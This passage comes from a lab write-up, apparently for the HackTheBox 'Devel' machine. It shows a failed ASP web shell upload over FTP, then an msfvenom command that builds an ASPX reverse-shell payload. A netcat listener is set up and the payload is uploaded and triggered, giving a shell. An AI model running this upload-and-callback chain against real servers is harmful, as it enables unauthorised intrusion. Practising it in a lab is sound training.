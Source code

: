 And try to upload it:

```bash
ftp> put whoops.asp 
local: whoops.asp remote: whoops.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38680 bytes sent in 0.00 secs (32.9947 MB/s)
```

Great. Now let's start a listener. I'm using port 413 in case Windows Defender blocks higher ports, so I'll need root permissions to listen:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ sudo nc -lnvp 413
[sudo] password for mac: 
listening on [any] 413 ...
```

Now visit the shell:

![](/assets/images/blogs/Pasted image 20210614120438.png)

We get a 500 error, and no shell. But the 500 rather than a 404 indicates we're probably in the right place to trigger it, and the shell is just wrong. How about an `.aspx` payload?

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=413 -f aspx -o whoopsie.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2728 bytes
Saved as: whoopsie.aspx
```

In FTP:

```bash
ftp> put whoopsie.aspx 
local: whoopsie.aspx remote: whoopsie.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2763 bytes sent in 0.00 secs (16.1657 MB/s)
```

This time the page loaded:

![](/assets/images/blogs/Pasted image 20210614120758.png)

And we got a shell!

![](/assets/images/blogs/Pasted image 20210614120816.png)
